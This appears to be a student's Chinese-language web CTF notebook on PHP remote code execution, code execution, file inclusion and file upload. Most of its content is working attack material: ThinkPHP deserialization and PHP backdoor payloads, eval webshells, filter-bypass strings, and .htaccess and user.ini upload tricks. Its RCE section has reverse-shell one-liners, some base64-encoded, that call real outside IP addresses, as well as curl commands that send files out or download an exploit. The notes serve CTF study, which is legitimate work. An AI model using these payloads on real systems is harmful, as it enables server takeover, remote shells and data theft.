


# Web CTF Notes — RCE、代码执行、文件漏洞与 Java 命令执行

> 来源：source/本科web笔记.md
> 内容按原笔记保留，仅添加本分组标题。

## 三、PHP 版本相关

## 🐘 三、PHP 版本相关

> [!summary] 速览
> - **PHP 8.1.0-dev 后门**：请求头 `User-Agentt: zerodiumsystem("id");`
> - **PHP 7.0 临时文件机制**：fastcoll（fastdoll）生成碰撞 PDF，抢临时文件
> - **ThinkPHP 6**：POP 链 poc（`think\model\concern`）+ 上传请求包
> - `uncompyle6 ../pyc/utils.cpython-38.pyc > ../pyc/utils.py` 反编译 pyc
> - 7.4 环境 + FFL 绕过 `disable_functions`

### 8.1.0-dev 后门复现

User-Agentt: zerodiumsystem("id");

### PHP 7.0 临时文件机制

fastdoll

fastcoll_v1.0.0.5.exe -p shell.pdf -o C:\Users\admin\Desktop\fastdoll\shell1.pdf C:\Users\admin\Desktop\fastdoll\shell2.pdf

PHP版本

7.4

ffl绕过disable

### ThinkPHP 6

poc

```php
<?php /** * Created by PhpStorm. * User: wh1t3P1g */
namespace think\model\concern {
    trait Conversion{
        protected $visible;
    }
    trait RelationShip{
        private $relation;
    }
    trait Attribute{
        private $withAttr;
        private $data;
        protected $type;
    }
    trait ModelEvent{
        protected $withEvent;
    }
}
namespace think {
    abstract class Model{
        use model\concern\RelationShip;
        use model\concern\Conversion;
        use model\concern\Attribute;
        use model\concern\ModelEvent;
        private $lazySave;
        private $exists;
        private $force;
        protected $connection;
        protected $suffix;
        function __construct($obj) {
            if($obj == null){
                $this->data = array("wh1t3p1g"=>"whoami");
                $this->relation = array("wh1t3p1g"=>[]);
                $this->visible= array("wh1t3p1g"=>[]);
                $this->withAttr = array("wh1t3p1g"=>"system");
            } else {
                $this->lazySave = true;
                $this->withEvent = false;
                $this->exists = true;
                $this->force = true;
                $this->data = array("wh1t3p1g"=>[]);
                $this->connection = "mysql";
                $this->suffix = $obj;
            }
        }
    }
}
namespace think\model {
    class Pivot extends \think\Model{
        function __construct($obj) {
            parent::__construct($obj);
        }
    }
}
namespace {
    $pivot1 = new \think\model\Pivot(null);
    $pivot2 = new \think\model\Pivot($pivot1);
    echo base64_encode(serialize($pivot2));
```

```http
POST /user/upload/upload HTTP/1.1
Host: 8180dbac-b11b-41d5-a2cd-4a034a2797e0.vnctf2024.manqiu.top
Cookie: PHPSESSID=7901b5229557c94bad46e16af23a3728
Content-Length: 894
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="97", "Chromium";v="97"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz
Accept: */*
Origin: https://info.ziwugu.vip/
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://target.com/user/upload/index?name=icon&type=image&limit=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6
Connection: close

------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="name"

test.jpg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 21 2021 18:15:25 GMT+0800 (中国标准时间)
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="size"

164264
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

JFIF
<?php phpinfo();?>

------WebKitFormBoundaryrhx2kYAMYDqoTThz--

```

### Python 反编译

`uncompyle6 ../pyc/utils.cpython-38.pyc > ../pyc/utils.py`

 python终端

```python
import os 
tmp=os.popen('ls /').read()
print(tmp)

```

---


## 六、命令执行（RCE）

## 💻 六、命令执行（RCE）

> [!summary] 速览
> - **长度限制**：`$0 fl* >&2`、`nl /*>1`、`echo PD9waHAg...|base64 -d>1.php` 分步写入；4 / 5 / 7 字符各有绕过姿势
> - **某字母被 ban**：反斜线转义 `cat fla\g.php`、单引号分隔 `cat fl''ag.php`
> - **无字母数字**：`hex2bin('73797374656d')(...)`、取反 `(~%8C%86%8C%8B%9A%92)(~%93%8C)`、`$_=[];$_=@"$_";` 自增构造
> - **无参数读取**：`system(current(getallheaders()))`、`get_defined_vars()`、`session_id()`
> - **ping 题目**：冒号被过滤用 `%0a` 代替；有回显读文件、无回显外带
> - **提权**：`find / -perm -u=s -type f 2>/dev/null` 找 SUID、nginx CVE-2016-1247、pkexec 版本比对
> - 常见危险调用点：`eval`、`assert`、`preg_replace`、`create_function`、`array_map`、`call_user_func`、`usort`



[](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6)

[4,5,7绕过](https://blog.csdn.net/q20010619/article/details/109206728?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170564099816800182785255%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=170564099816800182785255&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-2-109206728-null-null.142^v99^pc_search_result_base7&utm_term=rce4%E9%95%BF%E5%BA%A6%E5%AD%97%E7%AC%A6%E7%BB%95%E8%BF%87&spm=1018.2226.3001.4187)

[4](https://xiaolong22333.top/archives/201/)

### 字符长度限制

$0 fl* >&2

#### 7 字符长度

			**trick：nl /*>1**

	拆解绕过

		`echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php`

		<?php eval（$_GET[1]);

```python

import requests
import time

url = "http://66647db2-18aa-4d81-aa34-52f50c5789d1.challenge.ctf.show/api/tools.php"
with open("payload.txt", "r") as f:
    for i in f:
        data = {"cmd": i.strip()}
        r = requests.post(url=url, data=data)
        time.sleep(1)#时间控制
        print(r.text)

test = requests.get("http://66647db2-18aa-4d81-aa34-52f50c5789d1.challenge.ctf.show/api/1.php")
if test.status_code == requests.codes.ok:
    print("you've got it!")

```

4字符绕过

```text
cat /flag   base64:PD9waHAgcGhwaW5mbygpOw==
构造
echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php

```

https://fushuling.com/index.php/2023/03/04/%e5%88%a9%e7%94%a8shell%e8%84%9a%e6%9c%ac%e5%8f%98%e9%87%8f%e6%9e%84%e9%80%a0%e6%97%a0%e5%ad%97%e6%af%8d%e6%95%b0%e5%ad%97%e5%91%bd%e4%bb%a4/

无字母十足

### 某个字母被 ban 的绕过方法

https://tr0jan.top/archives/74/ bash绕过

```text
1. 反斜线转义 cat fla\g.php
2. 两个单引号做分隔 cat fl''ag.php
3. base64编码绕过 echo Y2F0IGZsYWcucGhw | base64 -d | sh
4. hex编码绕过 echo 63617420666c61672e706870 | xxd -r -p | bash
5. glob通配符 cat f[k-m]ag.php  cat f[l]ag.php
6. ?和*
7. cat f{k..m}ag.php
8. 定义变量做拼接 a=g.php; cat fla$a
9. 内联执行cat `echo 666c61672e706870 | xxd -r -p` 或 cat $(echo 666c61672e706870 | xxd -r -p) 或 echo 666c61672e706870 | xxd -r -p | xargs cat
cat `echo 2f666c6167 | xxd -r -p`
八进制绕过
$0<<<$0\<\<\<\$\'\\154\\163\\40\\57\'
$'\143\141\164'<$'\57\146\154\141\147'   重定向

10.指定字符
11.sort+/flag
12.rev
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261 //报错出文件内容

```

var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

拼接执行

`1.tar | echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC81aTc4MTk2M3AyLnlpY3AuZnVuLzU4MjY1IDA+JjEn | base64 -d | bash |`

```php
if(preg_match('/f|l|a|g/',$a))
只过滤命令参数

function=file_get_contents&cmd=http://47.99.125.16/3.php
都过率

function=strtolower&cmd=show_source(chr(47).chr(102).chr(49).chr(97).chr(103));

More `php -r "echo chr(102).chr(49).chr(97).chr(103);"`

ls / |script 1.txt 写入1.txt

```

```text
Eval函数

使用system一般有回显，`ls`一般要用echo来输出

无回显问题：

python -m http.server 80 	开启监听
php://filter/resource 最短

php -S localhost:8000   linux 启动php

nc -lp 3939

nc 47.99.125.16 3389 -e /bin/bash
nc 47.99.125.16 3389 -e /bin/sh

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OS4xMjUuMTYvMzM4OSAgMD4mMSc= | base64 -d | bash 
a';CALL SHELLEXEC('bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OS4xMjUuMTYvMzM4OSAgMD4mMSc=}|{base64,-d}|{bash,-i}');--+


        1 & echo "bash -i >& /dev/tcp/47.99.125.16/3389 0>&1" > /tmp/hack.sh
        1 & bash /tmp/hack.sh

echo bash -c 'bash -i >& /dev/tcp/49.232.224.59/3389  0>&1' | base64 -d | bash |

bash -c 'exec bash -i &>/dev/tcp/49.232.224.59/3389 <&1'
反弹shell

.可以被。代替

curl 192.168.74.129/123		访问
curl -v -X OPTIONS 检查访问

Curl  3fjcznyppzdq1o2py3z4lwkw0n6eu4it.oastify.com  -T  /tmp/Syclover  传输数据

​             -o  shell.php  下载文件到
 -o  shell.php 
curl  https://haxx.in/files/dirtypipez.c  -o shell.c

Curl  -t 192.169.1.1 /flag      极客大挑战2023 Web方向题解wp 全-CSDN博客.html

?url=http://ip:1337/' -F file=@/flag '

```

 查看端口进程：

`lsof -i :<port>`

- crypto.randomBytes用于密码学随机数, 无法预测
- setTimeout在超时时间大于32-bit signed integer时会被置为1
- 删除的文件可以从/proc/PID/fd/fd_num路径读取

### ping 题目

```text
冒号过滤 ----%0a代替

$(printf "\154\163") 执行ls --绕过反引号``

 思路：

黑名单绕过rce，用16进制编码绕过：aaa=hex2bin('73797374656d')('uniq /f*');

日志替换

/var/log/nginx/access.log

学到了sed p /[e-g][0-2]* ;这种读文件的方法，转换下sed p /[e-g][i-m]* ;就相当于cat /flag了

nl ->uniq

空格${IFS}

**#可以使用mv将flag.php文件移动到其他文件 然后访问文件拿到flag** ?c=mv${IFS}fla?.php${IFS}a.txt

$(())是0

$((~$(())))是-1

$(($((~$(())))$((~$(())))))是-2

```

```text
读取文件

c=include$_POST[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

文件日志包含再用include

c=var_export(scandir("/"));exit();

Eval闭合?>

c=highlight_file("/flag.php"); c=include("/flag.txt"); c=require("/flag.txt"); c=include_once("/flag.txt"); c=require_once("/flag.txt");

有Include函数包含，在require包含会跳过，这里绕过使用

php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php 

--requice跳过

c=$a=opendir('/');while(($file = readdir($a)) !=false){echo $file." ";}

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}  #扫描根目录有什么文件

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->getFilename()." ");} 

读取根目录文件

 

 1、查看源码以后发现在最后输出的环节，他将数字和字母全部都转换为了“?”号，可以通过“exit();”，将后续代码闭合。

  2、扫描目录：

c=$a=opendir('/');while(($file=readdir($a)) != false) {echo $file."";}exit();

passthru(“ls /“);

```

https://www.jianshu.com/p/8ba94b174348

### 无参数读取

1、system(current(getallheaders()));
2、get_defined_vars()
3、session_id()

```php
eval(hex2bin(session_id(session_start())));
 
print_r(current(get_defined_vars()));&b=phpinfo();
 
eval(next(getallheaders()));
 
var_dump(getenv(phpinfo()));
 
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
 
print_r(scandir(next(scandir(getcwd()))));//查看上一级目录的文件

```

```text

# phpinfo(): [~%8F%97%8F%96%91%99%90][~%CF]();

#查看shell在第几个：
# var_dump(getallheaders())： [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]());

#返回shell
# var_dump(next(getallheaders())): [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

#执行shell
# system(next(getallheaders())): [~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

```

//此处我用的官方wp的exp脚本

```php
/?exp=eval(file_put_contents("1.php",base64_decode($_POST['a'])));

POST:

a=PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwojIFBvcnQgc2Nhbgpmb3IoJGk9MDskaTw2NTUzNTskaS

srKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaW

YoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9Cg==

扫描可用端口
    
cmd=var_dump(file(array_rand(array_flip(scandir(current(localeconv()))))));

var_dump(get_cfg_var("disable_functions"));

var_dump(get_cfg_var("open_basedir"));

var_dump(ini_get_all());相关配置信息

get_loaded_extensions()查看所有编译并加载的模块

 
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));
 print_r(array_rand(array_flip(scandir(getcwd())))); 随机读取

highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位

 //查看和读取根目录文件

print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));

 

show_source(array_rand(array_flip(scandir(chr(ord(strrev(crypt(serialize(array())))))))));

$a->lover="mkdir('a');chdir('a');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('.'));";

 

$a->lover="mkdir('a');chdir('a');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('.'));readfile('f1ger');"

echo file_get_contents("/ctfshowflag");

 //查看和读取根目录文件

————————————————=>获得路径为/var/html

?code = print_r(getcwd());

=>查看路径下内容没有可用的

?code = print_r(scandir(getcwd()))

=>探测上一级为Array ( [0] => . [1] => .. [2] => flag_phpbyp4ss [3] => html )

?code = print_r(scandir(dirname(getcwd())))

=>发现flag文件，进行读取

?code = readfile(next(array_reverse(scandir(dirname(getcwd())))))

=>发现报错，不存在flag_phpbyp4ss文件，更改工作目录

?code = readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))))

 

拿到数组最后一个

show_source(end(scandir(getcwd())));

 

get_defined_vars ( void ) : array 返回由所有已定义变量所组成的数组

 

?code=eval(end(current(get_defined_vars())));&b=phpinfo();
echo(implode(scandir(chr(strrev(uniqid())))));

```

```php
echo(new+DirectoryIterator('glob:///f*'));

```

### 不含数字和字母

https://www.freebuf.com/articles/network/279563.html


```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
注意：执行的时候要进行一次 URL 编码，否则 Payload 无法执行。

```

```php
$black_list=array('^','.','`','>','<','=','"','preg','&','|','%0','popen','char','decode','html','md5','{','}','post','get','file','ascii','eval','replace','assert','exec','$','include','var','pastre','print','tail','sed','pcre','flag','scan','decode','system','func','diff','ini_','passthru','pcntl','proc_open','+','cat','tac','more','sort','log','current','\\','cut','bash','nl','wget','vi','grep');

```

hex2bin('73797374656d')(hex2bin('636174202f666c6167'));

(~%8C%86%8C%8B%9A%92)(~%93%8C);要注意传参类型问题

低版本木马多用`assert(eval($_POST[test]))`

```php
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8B%9A%8C%8B%DD%A2%D6%D6);

```

绕过disablefunction用蚂蚁🗡

### 提权题目

nginx

(14.04)[https://blog.knownsec.com/2016/11/nginx-exploit-deb-root-privesc-cve-2016-1247/ ]

```bash
find / -perm -u=s -type f 2>/dev/null    //查看具有suid权限的命令

find / -perm -4000 2>/dev/null     //这个也可以

定时触发可能有定时任务 cat /etc/crontab

lsb_release -a，列出所有linux系统版本信息
nginx -v，列出nginx版本信息

```

 pkexec --version

查看版本

grep -rl "NSS**" /path/to/search 查找指定内容

find / -type f -exec grep -l "NSSCTF{" {} +

Auto_prepend_file  phpinfo

多重变量覆盖extract尝试session_id=session_id

${}执行代码

eval

assert

preg_replace

create_function()

array_map()

call_user_func()/call_user_func_array()

array_filter()

usort(),uasort()

---


## 七、代码执行

## ⚙️ 七、代码执行

> [!summary] 速览
> - 变量名里塞空格 / 特殊字符，PHP 解析时会先去掉空格，代码依旧能跑
> - 经典特性 **Use of undefined constant**：未加引号的字符串被当作字符串（PHP < 7.2 仍存在）
> - ASCII > `0x7F` 的字符与 `0xFF` 异或相当于取反，可绕过被过滤的取反符号
> - 无字母数字调用函数：`?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo`
> - 与 `.htaccess` 联动的 Python 上传 / 利用脚本

例题一


现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样代码还能正常运行，还上传了非法字符。

例题二：


例题三：


Php的经典特性“Use of undefined constant”，会将代码中没有引号的字符都自动作为字符串，7.2开始提出要被废弃，不过目前还存在着。

Ascii码大于 0x7F 的字符都会被当作字符串，而和 0xFF 异或相当于取反，可以绕过被过滤的取反符号。

调用函数

可以传入phpinfo，也可以进入第二层get_the_flag 函数

```jinja
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag

```

python脚本htaccess联动使用

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .abc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_d99081fe929b750e0557f85e6499103f/shell.abc"
"""
shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['a']);?>")
url = "http://c2b7d2d9-4f7b-4796-ae5a-015ceb2c32e5.node3.buuoj.cn//?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.abc',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

---


## 八、文件包含

## 📂 八、文件包含

> [!summary] 速览
> - 先背路径：nginx 配置与日志、`/usr/share/nginx/html`、`/var/log/nginx` 等
> - **方法一（CVE-2018-14884）**：`php://filter/string.strip_tags` 触发 PHP 7 段错误清栈重启，若同时有上传，tmp 文件会一直留在 `/tmp`
> - 命中版本区间才有用：7.0.0–7.1.2 / 7.1.3–7.2.1 / 7.2.2–7.2.8
> - 读 flag：`?file=php://filter/convert.base64-encode/resource=/nice/../../proc/self/cwd/flag.php`

配置文件存放目录：/etc/nginx

主配置文件：/etc/nginx/conf/nginx.conf

管理脚本：/usr/lib64/systemd/system/nginx.service

模块：/usr/lisb64/nginx/modules

应用程序：/usr/sbin/nginx

程序默认存放位置：/usr/share/nginx/html

日志默认存放位置：/var/log/nginx

配置文件目录为：/usr/local/nginx/conf/nginx.conf

### 方法一：PHP 7 segment fault 特性（CVE-2018-14884）

使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录

- php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复

- php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复

- php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复

- 可以获取文件名

- 源代码将GET参数进行文件包含

- ```python
  import requests
  from io import BytesIO #BytesIO实现了在内存中读写bytes
  payload = "<?php eval($_POST[cmd]);?>"
  data={'file': BytesIO(payload.encode())}
  url="http://b75582fa-5dab-4f76-8734-1c591cb88d31.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
  r=requests.post(url=url,files=data,allow_redirects=False)
  

  ```

  方法二

  

  ```text
  ?file=php://filter/convert.base64-encode/resource=/nice/../../proc/self/cwd/flag.php
  

  ```

死亡exit

```text
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?%3E%3C?php%0Deval($_POST[pass]);?%3E/resource=shell.php

```

---


## 九、文件上传

## 📤 九、文件上传

> [!summary] 速览
> - **做题思路**：① 改后缀 → ② 木马加文件头（`CIF89` / `GIF89a`）→ ③ 传 `user.ini`（`auto_prepend_file`）→ ④ 传 `.htaccess`
> - `.htaccess` 魔法：`php_value error_log` + `log_errors` 自定义错误日志写入（配合 `include_path`）
> - 其他套路：软链接、多文件包含、`phar://` + 条件竞争、老版本 Apache 解析漏洞 `1.php.1`
> - 可被 PHP 解析的后缀：`php / php3 / php4 / php5 / php7 / phtml / pht / phs / shtml / pwml`
> - PHP 标签：`<script language=php>`、`<% %>`（需 `asp_tags`）、`<? ?>`（需 `short_open_tags`）



```html
<form action="http://e0aced16-e5c4-4e03-8911-e9b3180ea03c.www.polarctf.com:8090/" enctype="multipart/form-data" method="post" >
    
    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />
   
</form>
//上传表单

```

做题思路:

1.先改后缀名

2.php木马过滤<?(头部尝试CIF89)

```text
#define width 1337
#define height 1337 
AddType application/x-httpd-php .feng
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_c41893938531041badacfc22febe3abd/123.feng

```

3.user.ini配置文件(都加这个文件)

```ini
auto_prepend_file=01.gif

```

4.高阶魔法

魔法一：利用.htaccess文件

error_log结合log_errors自定义错误日志([例题](XNUCA2019Qualifier]EasyPHP)

这题要你能控制写入文件

```ini
php_value include_path "/tmp/%2bADw-%3fphp eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting 32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\

php_value include_path "/tmp/+ADw-?php eval($_GET[code]);__halt_compiler();"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
#\

#先进行配置文件再利用utf-7利用
php_value include_path "/tmp"%0d%0aphp_value zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\

利用#直接写木马
filename=.htaccess&content=php_value%20auto_prepend_fi\%0Ale%20%22.htaccess%22%0A%23%3C%3fphp%20%40eval(%24_GET[%27cmd%27])%3b%20%3f%3E\

```

魔法二:

软链接

https://peri0dctf.gitbook.io/buuojwp/python/flask/swpu2019-web3

```text

1. `ln -s /proc/self/cwd/flag/flag.jpg test`

2. `zip -ry test.zip test`
Linux下/self/cwd/会指向进程的当前目录

ln -s /etc/passwd test 相当于新建一个链接到/etc/passwd的文件test，对test使用cat等命令会自动指向/etc/passwd

```

多文件包含

```http
POST / HTTP/1.1

 Content-type: multipart/form-data;boundary=--------------------------55split 

User-Agent: Firefox 

Accept: */* Host: 192.168.1.113 

Accept-Encoding: gzip, deflate 

Connection: close 

Content-Length: 362 

 ----------------------------55split 

Content-Disposition: form-data; name=""; filename="1.py" 

Content-Type: application/octet-stream  

HWO 

----------------------------55split 

Content-Disposition: form-data; name="flag" 

Content-Type: application/octet-stream 

php://filter/read=convert.base64-encode/resource=flag.php 

----------------------------55split--

```

一句话木马：

<script language='php'></script>

逻辑漏洞、文件内容检测绕过

文件头是位于文件开头的一段承担一定任务的数据，一般开头标记文件类型，如gif的gif89a，或gif87a， png的x89PNG\x0d\x0a,等等

php的解释器可以解析：php、php3、php4、php5、php7、phtml、pht、phs、shtml、pwml~不过本题除了后两个，前面全部被waf拉黑了~

$file=1.php.1 //apache2.x解析漏洞，输入/.是不会解析的

$file=1.pwml //php解释器绕过

con=<?php @eval($_POST[cmd]);?>&file=test.php/ 递归目录会截断

Php特性：

<script language="php">echo '123'; </script> 无问号

<% echo '123';%>  #开启配置参数asp_tags=on，并且只能在7.0以下版本使用

<? echo '123';?>  #前提是开启配置参数short_open_tags=on

phar://协议可以读取任意后缀压缩包中的内容，如.zip。

为题目中有写文件的函数，所以可以通过file_put_contents写phar文件，然后再通过file_put_contents触发phar反序列化。当然我们得在删除文件前执行完这两个操作，所以需要用到条件竞争。

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps1.jpg`

```apache
AddType application/x-httpd-php .xxxphp_value auto_append_file "php://filter/convert.base64-decode/resource=shell.xxx"
```

#### .htaccess

就是更改解析设置了

```ini
AddType application/x-httpd-php png
php_value auto_append_file /flag

```

### 字符绕过

trick：在Linux系统下1.php.是一个合法的文件名，系统不会自动把最后的点去掉并把文件当成php文件执行，所以点绕过只在Windows下有用 1.php/.

十六进制可绕过，s改为S

1.

**// 将小s改为大S; 做处理后 \75是u的16进制， 成功绕过**

2.
3.

$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';

4.
5.

GET:?web=O:3:"syc":1:{S:5:"lo\76er";s:18:"assert($_POST[1]);";

POST:1=要执行的代码

